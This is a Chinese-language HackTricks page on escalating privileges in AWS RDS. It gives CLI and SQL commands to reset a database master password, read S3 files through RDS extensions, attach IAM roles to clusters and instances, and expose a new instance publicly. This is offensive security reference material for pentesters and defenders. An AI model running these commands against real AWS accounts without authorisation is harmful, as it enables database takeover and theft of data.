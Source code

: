 # AWS - RDS 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## RDS - 关系型数据库服务

有关RDS的更多信息，请查看：

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以**修改主用户的密码**，并登录数据库：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**连接到数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：** 在数据库中找到敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，拥有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql（Aurora）

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**，您发现一个名为**`rdsadmin`**的数据库，您就知道您在**AWS postgresql数据库**内部。
{% endhint %}

首先，您可以检查这个数据库是否已被用来访问任何其他AWS服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果您发现类似 **`aws_s3`** 的内容，您可以假设这个数据库对 S3 有**某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果您有权限运行 **`aws rds describe-db-clusters`**，您可以在 **`AssociatedRoles`** 字段中看到**集群是否附加了任何 IAM 角色**。如果有，您可以假设数据库已经**准备好访问其他 AWS 服务**。根据**角色的名称**（或者如果您能获取角色的**权限**），您可以**猜测**数据库有哪些额外的访问权限。

现在，要**读取存储桶内的文件**，您需要知道完整路径。您可以使用以下命令读取：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果您拥有**原始 AWS 凭证**，您也可以使用它们来访问 S3 数据：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **无需更改任何参数组变量**即可访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个名为 **`rdsadmin`** 的用户，你可以假设你在 **AWS RDS mysql数据库** 中。
{% endhint %}

在mysql中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问S3数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**（通常意味着访问AWS服务）。

现在，要**读取存储桶中的文件**，你需要知道完整路径。你可以用以下方法读取：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 权限的攻击者可以**向现有的 RDS 实例添加指定角色**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或未授权修改 RDS 实例中的数据。
请注意，某些数据库需要额外配置，例如 Mysql，它还需要在参数组中指定角色 ARN。

### `rds:CreateDBInstance`

仅凭这个权限，攻击者就能在已存在的**集群内创建一个新实例**，并且该集群已经附加了**IAM 角色**。他将无法更改主用户密码，但他可能会将新的数据库实例暴露给互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
待办事项：测试
{% endhint %}

拥有 `rds:CreateDBInstance` 和 `iam:PassRole` 权限的攻击者可以**创建一个新的 RDS 实例并附加指定角色**。攻击者随后可能**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
附加的角色/实例配置文件的一些要求（来源[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须存在于您的账户中。
* 配置文件必须有一个 IAM 角色，Amazon EC2 有权限承担。
* 实例配置文件名和关联的 IAM 角色名必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**潜在影响**：访问敏感数据或未经授权修改 RDS 实例中的数据。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 权限的攻击者可以**向现有 RDS 实例添加指定角色**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
DB 实例必须位于集群外部
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问敏感数据或未经授权修改 RDS 实例中的数据。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

其他支持 HackTricks 的方式：

* 如果您希望在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
